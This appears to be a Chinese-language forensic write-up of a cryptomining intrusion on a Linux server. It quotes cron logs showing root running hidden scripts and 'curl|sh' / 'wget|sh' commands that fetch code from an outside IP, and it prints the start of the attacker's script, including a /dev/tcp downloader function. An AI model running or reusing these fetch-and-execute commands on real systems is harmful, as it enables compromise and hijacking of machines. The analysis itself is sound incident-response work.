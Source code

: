 ```
Jul  9 13:05:02 localhost CROND[3957]: (root) CMD (/root/.systemd-private-jeAozqLbO5Ni2rtDL7lwAMXluzYQMl.sh > /dev/null 2>&1 &)
Jul  9 13:29:01 localhost CROND[6672]: (root) CMD (/opt/systemd-private-jeAozqLbO5Ni2rtDL7lwAMXluzYQMl.sh > /dev/null 2>&1 &)
Jul  9 13:33:59 localhost crond[7505]: (CRON) bad minute (/etc/cron.d/systemdd)
Jul  9 13:33:59 localhost crond[7505]: (CRON) bad minute (/etc/cron.d/systemdd)
Jul  9 13:33:59 localhost crond[7505]: (CRON) bad minute (/etc/cron.d/systemdd)
Jul  9 13:35:01 localhost CROND[7580]: (root) CMD (wget -qO- 139.59.150.7:443/rl|sh)
Jul  9 13:35:01 localhost CROND[7581]: (root) CMD (curl -fsS 139.59.150.7:443/rl|sh)
Jul  9 13:35:02 localhost CROND[7577]: (root) CMDOUT (sh: line 1: XRANDOM: command not found)
Jul  9 13:35:03 localhost CROND[7576]: (root) CMDOUT (sh: line 1: XRANDOM: command not found)
Jul  9 14:05:01 localhost CROND[11627]: (root) CMD (/root/.systemd-private-jeAozqLbO5Ni2rtDL7lwAMXluzYQMl.sh > /dev/null 2>&1 &)
Jul  9 14:29:04 localhost CROND[15270]: (root) CMD (/opt/systemd-private-jeAozqLbO5Ni2rtDL7lwAMXluzYQMl.sh > /dev/null 2>&1 &)
Jul  9 16:05:02 localhost CROND[28101]: (root) CMD (/root/.systemd-private-jeAozqLbO5Ni2rtDL7lwAMXluzYQMl.sh > /dev/null 2>&1 &)
Jul  9 16:29:03 localhost CROND[30857]: (root) CMD (/opt/systemd-private-jeAozqLbO5Ni2rtDL7lwAMXluzYQMl.sh > /dev/null 2>&1 &)
Jul  9 18:05:01 localhost CROND[9615]: (root) CMD (/root/.systemd-private-jeAozqLbO5Ni2rtDL7lwAMXluzYQMl.sh > /dev/null 2>&1 &)
Jul  9 18:29:01 localhost CROND[12804]: (root) CMD (/opt/systemd-private-jeAozqLbO5Ni2rtDL7lwAMXluzYQMl.sh > /dev/null 2>&1 &)
Jul 12 10:05:01 localhost CROND[2015]: (root) CMD (/root/.systemd-private-jeAozqLbO5Ni2rtDL7lwAMXluzYQMl.sh > /dev/null 2>&1 &)

```

重点关注两个关键的时间节点

```
Jul  9 12:48:01 localhost CROND[388]: (root) CMD (curl -fsS 139.59.150.7:443/rl|sh)
Jul  9 12:48:01 localhost CROND[389]: (root) CMD (wget -qO- 139.59.150.7:443/rl|sh)
Jul  9 13:05:02 localhost CROND[3957]: (root) CMD (/root/.systemd-private-jeAozqLbO5Ni2rtDL7lwAMXluzYQMl.sh > /dev/null 2>&1 &)
```

在执行目前的挖矿程序之前，攻击者首先执行了

```
curl -fsS 139.59.150.7:443/rl|sh
```

内容如下

```
XRANDOM
exec &>/dev/null
export PATH=$PATH:$HOME:/bin:/sbin:/usr/bin:/usr/sbin:/usr/local/bin:/usr/local/sbin

function kurl() {
  read proto server path <<<$(echo ${1//// })
  DOC=/${path// //}
  HOST=${server//:*}
  PORT=${server//*:}
  [[ x"${HOST}" == x"${PORT}" ]] && PORT=80

  exec 3<>/dev/tcp/${HOST}/$PORT
  echo -en "GET ${DOC} HTTP/1.0\r\nHost: ${HOST}\r\n\r\n" >&3
  (while read line; do
   [[ "$line" == $'\r' ]] && break
  done && cat) <&3
  exec 3>&-
}

rm -f $HOME/ss
```